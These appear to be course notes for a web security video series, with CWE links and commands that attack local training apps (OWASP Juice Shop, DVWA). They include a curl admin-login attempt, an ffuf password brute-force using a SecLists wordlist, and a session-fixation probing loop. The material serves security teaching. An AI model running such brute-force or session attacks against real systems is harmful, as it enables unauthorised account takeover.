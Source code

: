 # Video 4.3

* [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
* [GitHub: SecLists](https://github.com/danielmiessler/SecLists)

```sh
curl 'http://localhost:3000/rest/user/login' -H 'Content-Type: application/json' -d '{"email":"admin@juice-sh.op","password":"admin"}'
```

```sh
# don't want to skip 401, as we can get some brute-force prevention error message
# with 401 Unauthorized code
ffuf -u 'http://localhost:3000/rest/user/login' -H 'Content-Type: application/json' -d '{"email":"admin@juice-sh.op","password":"FUZZ"}' -fs 26 -w /usr/share/seclists/Passwords/probable-v2-top12000.txt:FUZZ
```

# Video 4.4

* [CWE-384: Session Fixation](https://cwe.mitre.org/data/definitions/384.html)
* [File: dvwa-session.sh](dvwa-session.sh)

```sh
# execute curl 2 times a second
for i in {1..10}; do dvwa-session;sleep 0.5; done
```

```sh
date -d @UNIX_TIME
```
